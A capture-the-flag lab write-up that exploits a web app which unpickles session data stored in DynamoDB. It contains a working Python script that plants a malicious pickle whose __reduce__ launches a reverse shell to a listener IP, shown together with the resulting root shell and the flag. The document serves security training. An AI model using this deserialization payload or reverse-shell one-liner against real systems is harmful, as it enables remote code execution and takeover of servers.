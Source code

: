 # DynamoDB

List tables

```
root@attackdefense:~# aws --endpoint http://dynamodb.pentesteracademylab.appspot.com:4567 dynamodb list-tables
{
    "TableNames": [
        "session"
    ]
}
```

There are no records in `session` table

```
root@attackdefense:~# aws --endpoint http://dynamodb.pentesteracademylab.appspot.com:4567 dynamodb scan --table session
{
    "Items": [],
    "Count": 0,
    "ScannedCount": 0,
    "ConsumedCapacity": null
}
```

After logging in with given creds `guest/guest`, session object appears.

`sessionData` is a binary in base64 encoding format

```
root@attackdefense:~# aws --endpoint http://dynamodb.pentesteracademylab.appspot.com:4567 dynamodb scan --table session
{
    "Items": [
        {
            "sessionid": {
                "S": "291861251854427087918706439262060355831"
            },
            "sessionData": {
                "B": "KGRwMApTJ3Bhc3N3b3JkJwpwMQpWZ3Vlc3QKcDIKc1MnbmFtZScKcDMKVmd1ZXN0CnA0CnMu"
            }
        }
    ],
    "Count": 1,
    "ScannedCount": 1,
    "ConsumedCapacity": null
}
```

Decoding base64 - data stored is a pickled data

```
root@attackdefense:~# python
Python 2.7.16 (default, Apr  6 2019, 01:42:57) 
[GCC 8.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> data=base64.b64decode("KGRwMApTJ3Bhc3N3b3JkJwpwMQpWZ3Vlc3QKcDIKc1MnbmFtZScKcDMKVmd1ZXN0CnA0CnMu")
>>> data
"(dp0\nS'password'\np1\nVguest\np2\nsS'name'\np3\nVguest\np4\ns."
```

Unpickle the sessionData attribute value

```
>>> import pickle
>>> pickle.loads(data)
{'password': u'guest', 'name': u'guest'}
```

Value stored in sessionData is a pickled binary data base64 encoded. The web application unpickle the data upon retrieving from DynamoDB. We can upload a crafted pickled object to DynamoDB server and when deserialized, will execute commands on the machine

Create a putpickledobject script to upload a pickled object payload to DynamoDB

```python
import pickle
import subprocess
import os
import boto3

class Shell(object):
    def __reduce__(self):
        return (os.system, ("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.222.93.2\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'&",))


pickledData = pickle.dumps(Shell())

client = boto3.client("dynamodb",endpoint_url="http://dynamodb.pentesteracademylab.appspot.com:4567")

client.put_item(
    Item={
        "sessionid":
        {
            'S': '291861251854427087918706439262060355831'
        },
        "sessionData":
        {
            'B':pickledData
        }
    }, TableName='session'
)
```

Run python put pickled object, refresh the webpage and get reverse shell
```
root@attackdefense:~# python putPickledObject.py 
root@attackdefense:~# nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.222.93.2] from (UNKNOWN) [192.222.93.3] 46118
/bin/sh: 0: can't access tty; job control turned off
# id       
uid=0(root) gid=0(root) groups=0(root)
```

Find flag

```
# find / -name *flag* 2>/dev/null
/root/flag
# cat /root/flag
59323d0ec571e1105122d4f7041603d9
```


